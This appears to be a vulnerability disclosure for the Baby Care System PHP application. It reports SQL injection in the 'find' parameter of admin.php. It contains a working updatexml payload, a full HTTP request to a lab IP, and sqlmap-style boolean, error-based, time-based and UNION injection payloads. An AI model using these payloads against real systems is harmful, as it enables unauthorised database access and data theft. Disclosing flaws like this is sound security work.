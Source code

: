 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/posts.php&find=

![image](https://user-images.githubusercontent.com/54017627/161251169-fb304c0e-972a-45c4-acb8-64c15f1bf42b.png)

![image](https://user-images.githubusercontent.com/54017627/161251293-bfc29370-3124-49a7-b55c-864796735cd6.png)

Vulnerability location: /BabyCare/admin.php?id=posts&find= //find is Injection point

[+]Payload:  /BabyCare/admin.php?id=posts&find=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //find is Injection point

```sql
GET /BabyCare/admin.php?id=posts&find=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=v8g2iaa0tsnt5b01btt83eb7qo
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161250971-61b1efcc-ed1b-4d03-be36-bffa33d10507.png)

```sql
---
Parameter: find (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=posts&find=3' RLIKE (SELECT (CASE WHEN (6593=6593) THEN 3 ELSE 0x28 END))-- zXvu

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=posts&find=3' AND (SELECT 3959 FROM(SELECT COUNT(*),CONCAT(0x7170787071,(SELECT (ELT(3959=3959,1))),0x7178787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IVWt

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=posts&find=3' AND (SELECT 4643 FROM (SELECT(SLEEP(5)))bafh)-- GSoV

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: id=posts&find=3' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170787071,0x65476d614a4d4d69526c636a4e486f436b45485a67484d67736e4e47657a654761684c644d734557,0x7178787171),NULL#
---
```

![image](https://user-images.githubusercontent.com/54017627/161250913-dbf1b24c-34e2-4b69-9a19-8cab36caa69d.png)

